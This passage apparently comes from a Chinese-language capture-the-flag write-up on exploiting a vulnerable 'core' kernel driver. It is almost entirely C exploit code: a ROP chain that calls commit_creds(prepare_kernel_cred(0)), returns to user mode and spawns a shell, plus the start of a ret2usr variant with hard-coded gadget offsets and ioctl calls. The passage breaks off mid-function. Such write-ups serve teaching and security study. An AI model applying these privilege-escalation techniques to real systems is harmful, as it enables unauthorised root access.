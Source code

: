 ```c
	rop[i++] = prepare_kernel_cred;
	rop[i++] = prdx;//pop rdx; ret;
	rop[i++] = prcx;//pop rcx; ret
	rop[i++] = mrdi_rax_call_rdx;//mov rdi, rax;call rdx;
	rop[i++] = commit_creds;
	rop[i++] = swapgs;//swapgs; popfq; ret;
	rop[i++] = 0;
	rop[i++] = iret;// iretq; ret;
	rop[i++] = (size_t)get_shell;
	rop[i++] = user_cs;
	rop[i++] = user_eflags;
	rop[i++] = user_sp;
	rop[i++] = user_ss;
	write(fd,rop,0x100);
	core_copy_func(fd,0xf000000000000000+0x100);
	return 0;
}
```

2.执行用户代码中的commit_creds(prepare_kernel_cred(0)) （ret2usr）

```c
#include<stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/ioctl.h>
#include <pthread.h>

size_t vmlinux_base=0;
size_t module_base;
size_t canary;
size_t commit_creds = 0x9c8e0;
size_t prepare_kernel_cred = 0x9cce0;

size_t prdi = 0xb2f; //pop rdi; ret;
size_t prdx = 0xa0f49;//pop rdx; ret;
size_t prcx = 0x21e53;//pop rcx; ret;
size_t mrdi_rax_call_rdx= 0x1aa6a;//mov rdi, rax;call rdx;
size_t swapgs = 0xa012da;//swapgs; popfq; ret;
size_t iret=0x50ac2;// iretq; ret;

unsigned long user_cs, user_ss, user_eflags,user_sp;
void save_stats() {
	asm(
		"movq %%cs, %0\n"
		"movq %%ss, %1\n"
		"movq %%rsp, %3\n"
		"pushfq\n"
		"popq %2\n"
		:"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
 		:
 		: "memory"
 	);
}

void setoff(int fd,long long size){
	ioctl(fd,0x6677889C,size);
}
void core_read(int fd,char *buf){
	ioctl(fd,0x6677889b,buf);
```